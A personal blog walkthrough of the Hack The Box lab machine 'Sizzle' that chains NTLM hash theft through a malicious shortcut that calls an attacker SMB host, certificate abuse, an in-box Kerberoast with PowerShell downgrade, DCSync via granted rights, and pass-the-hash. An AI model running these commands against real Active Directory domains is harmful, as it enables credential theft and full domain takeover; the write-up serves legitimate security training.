





+++
date = '2026-07-01'
draft = false
title = 'HTB - Sizzle'
toc = true
tags = ['Walkthrough', 'Hack The Box']
+++

## Introduction
Welcome back to another writeup! I’m going to be going through Hack the Box’s Sizzle. This one was a doozy and, I won’t lie, I used hints from the description of the box and several walkthroughs to finish this box. Sizzle requires that you grab NTLM hashes via SMB, abuse the certificate authority, Kerberoast and DCSync to finish the box. 

## Nmap
Let’s get things started with NMAP.

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-30T16:29:13+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-06-30T16:29:13+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_ssl-date: 2026-06-30T16:29:13+00:00; -3s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-30T16:29:13+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
3269/tcp  open  ssl/ldap
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_ssl-date: 2026-06-30T16:29:13+00:00; -3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2026-06-30T16:29:14+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016|2008|7 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2016 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-06-30T16:28:36
|_  start_date: 2026-06-30T16:21:40
|_clock-skew: mean: -2s, deviation: 0s, median: -3s
```
Looking at the results, I know that this is a Windows environment and we’re running against a Domain Controller. I immediately notice FTP, HTTP and HTTPS as a good point to start scanning while examining SSH.

## Initial Steps
I started by logging into FTP anonymously. That ended up being a dead end as I didn’t have permission to view anything. I targeted HTTP and HTTPS next. Both loaded a GIF of bacon sizzling. I examined the source code to look for any hints or misconfigurations and came up empty-handed. I started directory busting for both services and came up empty handed again.  


## SMB
While the directory busting was running, I started investigating SMB. I was able to view it anonymously and see the shares using smbclient. 

```bash
smbclient -L \\\\[IP]\\ 
```

A few things immediately stood out: CertEnroll, Department Shares and Operations. The CertEnroll indicates that the machine is acting as a Certificate Authority and is responsible for providing certificates to the organization. Upon initial discovery, I completely skimmed over this folder. Hindsight being 20/20, I should have investigated this folder more. Department Shares is a juicy folder as it could contain data that can be used for privilege escalation. Operations could be any number of things. 

I attempted to connect to CertEnroll and was met with a denial. I moved on to Department Shares and saw there were quite a few folders. I copied all of them to my machine to investigate, hoping that there was something in there. 

```bash
mrecurse on 

mprompt off 

mget * 
```

Once I had them on my machine, I ran a command to see if any of the folders held any information. 

```bash
ls -lah
````

Lo and behold, most of the folders were decoys. Banking, HR, and Tax were all empty. The Users folder contained various user folders, including Public. More on this later. ZZ_Archive contains various files with different file types. 

I tried a few things, but nothing was successful. I happened to read the description, and it indicated that a share was writable and could lead to stolen NTLM hashes.  

## Stealing Hashes
I investigated the ZZ_Archive folder and was able to read and write to that folder. I looked back at my notes from the Practical Ethical Hacker (PEH) course as I remember a watering hole attack that can be used. You place a file in the share, and when another user browses the folder, Windows attempts to retrieve the referenced resource. This causes Windows to create an SMB connection to my machine. In doing so, it must authenticate. This is where the attack becomes useful. When the server attempts to authenticate to my machine, Windows sends an NTLM challenge-response that I can capture for offline cracking.  

```bash
$objShell = New-Object -ComObject WScript.shell 

$lnk = $objShell.CreateShortcut("C:\test.lnk") 

$lnk.TargetPath = "\\10.10.20.110\@test.png" #points to the attacker machine 

$lnk.WindowStyle = 1 

$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 

$lnk.Description = "Test" 

$lnk.HotKey = "Ctrl+Alt+T" 

$lnk.Save() 
```

Unfortunately, this didn’t work. 


I investigated the .rm and .ram file extensions, as I wasn’t familiar with those. Those files are used in RealMedia and can supposedly execute code. I attempted to have that reach out to an SMB share that I was hosting to grab hashes. That was unsuccessful as well. 

I then came across [ntlm_theft](https://github.com/Greenwolf/ntlm_theft). It is a python script that creates different files that will establish an SMB connection to the attacking machine. I created the files and placed them in the ZZ_Archive folder. That was unsuccessful as well. Looking through the folders again, I came across the Public user folder. I was able to place the ntlm_theft files in the Public folder and waited. Voila! I captured the hash for a user amanda. 


I ran it through hashcat and was able to crack it. 

```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt 
```


I now have my foothold!

## Cert Time
I imported the collected data into BloodHound to better visualize relationships between users, groups, and privileges. I found out that Amanda was a member of the remote management users group. I attempted WinRM and failed to connect. I attempted a Kerberoast attack and was mildly successful. The attack didn’t complete as Kerberos wasn’t exposed to the “outside”. However, I was able to discover that the user mrlky was Kerberoastable. I saved this in my back pocket.



At this point, I spent a couple days (reminder that a “day” is 30 minutes) working through this box. I decided to look through and follow a walkthrough on an as-needed basis.  

Looking through one of the reviews, it mentioned to use the newly acquired account to get a user certificate. I verified that I could engage with the web enrollment. With Windows CA, you can go to [IP]\certsrv and request certificates. On my machine, I created a CSR that I used to get a certificate. To create a CSR, I ran

```bash
openssl req -nodes -newkey rsa:2048 -keyout amanda.key -out amanda.csr 
```

This command creates a private key and CSR. I then logged into the web enrollment using Amanda’s credentials. I then requested a certificate.  


Once you’re presented with the next screen, you’ll need to choose “advanced certificate request”.  

You’ll need to get the BASE64 of the CSR. To do so, run 

```bash
cat [name].csr
```
Copy the output and put it in the BASE64 field. Select the usercert template and submit. 


Once the certificate has been created, download the BASE64 version of the certificate. You’ll be presented with a certificate named certnew.cer. 

Because Amanda was permitted to enroll for a User certificate, I could authenticate to WinRM using certificate-based authentication instead of a password. 

## Back to WinRM

I have the cert, awesome! Now what? I learned that there is a Ruby script that allows for WinRM connectivity via certificates. I found the script here and modified it to fit my environment. Make sure that you keep the script in the same folder the key and certificate are in. To run the script:

```bash
rlwrap ruby WinRM_shell.rb 
```
Lo and behold, it works! I now have access to the machine via WinRM. I attempted to grab the user flag, but it was nowhere to be had.  


## It's Kerberoasting Time
Again, continuing along the walkthrough, it was time to start Kerberoasting. Kerberoasting targets accounts associated with Service Principal Names (SPNs). When a domain user requests a service ticket (TGS) for one of these services, the ticket is encrypted using the service account’s password hash. This allows an attacker to request the ticket and then attempt to crack it offline. Normally, you can perform a Kerberoast from the attacking machine. However, with this box Kerberos (port 88) wasn’t available to machines outside of the box. 

To perform a Kerberoast on this machine, you have to do it “internal” to the machine. Knowing that I had enumerated an account earlier, I focused on how to perform the attack on the machine itself. After some research and reviewing a walkthrough for guidance, I was able to continue progressing through the attack path. 

I transferred PowerView from my machine to the remote machine. PowerView has a Kerberoast function built into it. I had to make a small modification to PowerView so it would successfully request the ticket under this environment. Once the script was modified, I ran the following command:

```bash
powershell -v 2 -ep bypass -c ". C:\temp\powerview.ps1; `$SecPassword = ConvertTo-SecureString '[AMANDA_PASS] -AsPlainText -Force; `$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', `$SecPassword); Get-DomainSPNTicket -SPN 'http/sizzle' -Credential `$Cred -OutputFormat hashcat | Out-File C:\temp\roast.txt" 
```

The WinRM session was running under a constrained PowerShell environment that prevented PowerView from functioning correctly. By launching PowerShell version 2, I was able to execute PowerView without the restrictions imposed by the newer PowerShell environment and successfully request the service ticket. 

The Kerberoast was successful and I had a hash for mrlky. I ran that through hashcat and was able to crack it. 

```bash
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
```



## Pwned
Now that I have the mrlky hash, I can perform a DCSync and grab the domain administrator hash. A DCSync is a task that is performed by domain controllers to sync contents between them. By performing a DCSync attack, I can have the domain controller send the contents to my machine. This provides the user hashes of all domain users among other data. 

To perform the attack, I must grant permissions to the mrlky account to perform DCSyncs.  

```bash
impacket-dacledit -action write -rights DCSync -principal mrlky -target-dn 'DC=HTB,DC=LOCAL' -dc-ip [IP] 'HTB.LOCAL/mrlky:[PASSWORD] 
```
Now that the account has permissions, I can perform the DCSync. 

```bash
impacket-secretsdump htb/mrlky:[PASS]@[IP] 
```
The attack completed successfully and I retrieved the domain Administrator hash.



I start a WinRM session with the domain administrator hash and successfully pwn the domain. 

```bash
Evil-winrm -I [DC_IP] -u administrator -H [hash] 
```

I grab the user flag and root flag and finish the box. 




## Final Thoughts
This box was extremely humbling. The box was labeled as “insane” in terms of difficulty. That already had me concerned. I try to use the walkthroughs as little as possible. Once I got to a point I couldn’t figure out, I’d look to the walkthrough as a hint and then research what I could do to get through to the next step. For reference, the walkthrough I used was [pL4StiC's walkthrough](https://pl4stic1337.github.io/writeups/htb-sizzle/). I know I don’t know everything, and I’m not even close to it, but I do know that I am learning little by little.  

Sizzle forced me to combine several techniques that I'd previously practiced independently. Capturing NTLM hashes, abusing Active Directory Certificate Services, Kerberoasting, and finally performing a DCSync attack all had to be chained together correctly. Although I relied on hints throughout the process, I walked away with a much deeper understanding of how these attacks fit together in a real Active Directory environment. 

Thank you, the reader, for following along on this journey. 
